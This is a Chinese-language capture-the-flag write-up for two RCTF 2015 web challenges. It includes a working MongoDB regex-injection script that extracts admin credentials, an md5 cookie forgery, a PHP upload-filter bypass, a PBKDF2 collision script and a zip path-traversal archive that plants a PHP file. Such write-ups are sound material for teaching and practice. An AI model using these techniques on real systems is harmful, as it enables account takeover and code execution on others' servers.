


# RCTF 2015

## weeeeeb3	WEB	150

先注册个账户，登陆进去发现cookie里面有个字段，发现其实是md5("$uid:$username")     
尝试把它改掉，发现自己个人信息页进不去了，结合forget password页来看，估计就是用忘记密码找回admin账号，    
把那个字段改成md5("1:admin")，个人信息页的url中把uid=1，就可以看见admin是1993/01/01的福建省福州市闽侯县人，
然后找回密码就可以了（然而好像有人搅屎，改了好几次才登录进去）    
进入admin后台，发现原代码里是要module=filemanage&do=???，猜测是do=upload    
发现页面给了个上传文件的表单（吐槽一下这次怎么全是要上传文件- -），表现如下：    
- 上传.php后缀：返回is a php!
- 上传非.php后缀，content-type改成image/jpg: you know what i want
- 上传.php5后缀，content-type改成image/jpg:: not a really php file
- 文件里含有<?php : something shows that is a php file!

最后翻官网
http://php.net/manual/en/language.basic-syntax.phptags.php
上传`<script language="php">`成功拿到flag.

## login WEB 300

### Mongo注入

```python
import requests, string

headers = {
	'Cookie': 'user=czo1OiJndWVzdCI7',
	'X-Requested-With': 'XMLHttpRequest'
}

def probe(name, pwd):
	data = {
		'username[$regex]': '/^' + ''.join(['\\x%02x' % ord(x) for x in name]) + '.*$/',
		'password[$regex]': '/^' + ''.join(['\\x%02x' % ord(x) for x in pwd]) + '.*$/',
	}
	r = requests.post('http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/checkLogin.php', headers=headers, data=data)
	if 'I think you can get them' in r.content:
		return True
	assert 'username or password error' in r.content
	return False

cur_user = 'ROIS_ADMIN'
cur_pass = 'pas5woRd_i5_45e2884c4e5b9df49c747e1d'

while True:
	print 'Cur:', cur_user
	for c in string.printable:
		if probe(cur_user + c, ''):
			cur_user += c
			break
	else:
		break

while True:
	print 'Cur:', cur_pass
	for c in string.printable:
		if probe(cur_user, cur_pass + c):
			cur_pass += c
			break
	else:
		break

print 'User:', cur_user
print 'Pass:', cur_pass
```

成功得到用户名，密码
```
cur_user = 'ROIS_ADMIN'
cur_pass = 'pas5woRd_i5_45e2884c4e5b9df49c747e1d'
```

### 登录后台

服务器关了有点蛋疼，记不太清后台页面说了一大堆什么
看到界面里有个上传zip的地方，大概还有就是根据页面给的提示，
给了个pclzip 2.8.2模块的代码（后来发现修改过），
还有html页面源代码里藏了一部分php代码，发现要碰撞一个PBKDF2才能上传文件
也就是上传文件是user-agent必须以rois_special_user_agent开头，长为65，
$_COOKIE['backdoor']要跟ua的hash一样，那么要构造碰撞

### PBKDF2+HMAC hash collisions

直接把下面网址的代码copy下来改改就好了
https://mathiasbynens.be/notes/pbkdf2-hmac

```python
#!/usr/bin/env python
# coding=utf-8

import hashlib
import itertools
import re
import string
import sys

TOTAL_LENGTH = 65
PREFIX = 'rois_special_user_agent'

prefix_length = len(PREFIX)
brute_force_length = TOTAL_LENGTH - prefix_length
passwords = itertools.product(string.ascii_lowercase, repeat=brute_force_length)
regex_printable = re.compile('[\x20-\x7E]+$')
base_hasher = hashlib.sha1()
base_hasher.update(PREFIX)

for item in itertools.imap(''.join, passwords):
  hasher = base_hasher.copy()
  hasher.update(item)
  sha1_hash = hasher.digest()
  if regex_printable.match(sha1_hash):
    print u'%s \U0001F4A5 %s'.encode('utf-8') % (PREFIX + item, sha1_hash)
```

跑出来的结果


所以：
`User-Agent:rois_special_user_agentaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamipvkd`
`backdoor=3-Rfm^Bq%3bZZAcl]mS&eE`

### 构造特殊zip

一开始不知道要干嘛，上传什么zip,后来发现上传路径里面是/upload/image/*    
后来搜到这篇帖子:
http://www.sa666.com/thread-39060-1-1.html

参考那篇帖子，构造一个压缩包，内含有
1.php
../1.php
../../1.php
../../../1.php
然后把某个文件在zip中的部分破坏一下，全改成a，让解压到一半的时候异常退出，防止解压出的文件被删掉


### 本地测试
把那个.php.bak下载下来，改名叫pclzip.php，本地用下面的代码跑跑解压构造好的zip看看，
```php
<?php
require('pclzip.php');
$pclzip = new PclZip('w.zip');
var_dump($pclzip->extract());
var_dump($pclzip->errorInfo(true));
```

发现解压出来的文件被改了名字，是一个md5，搜了下pclzip.php，发现4415行中
```php
    // ----- Get filename
    if ($p_header['filename_len'] != 0)  {
      $p_header['filename'] = fread($this->zip_fd, $p_header['filename_len']);
      $preNum = substr_count($p_header['filename'], '../');
      $prefix = str_repeat('../', $preNum);
      $element = explode('.', str_replace($prefix, '', $p_header['filename']));
      $fname = $prefix . md5($element[0]. 'RoisFighting'). '.' .end($element);
      $p_header['filename'] = $fname;
    }
```
可见解压出的文件名字是md5(原文件名 . 'RoisFighting').

把压缩包上传上去，返回fail，说明成功了


访问新文件名对应的url就可以拿到flag了。
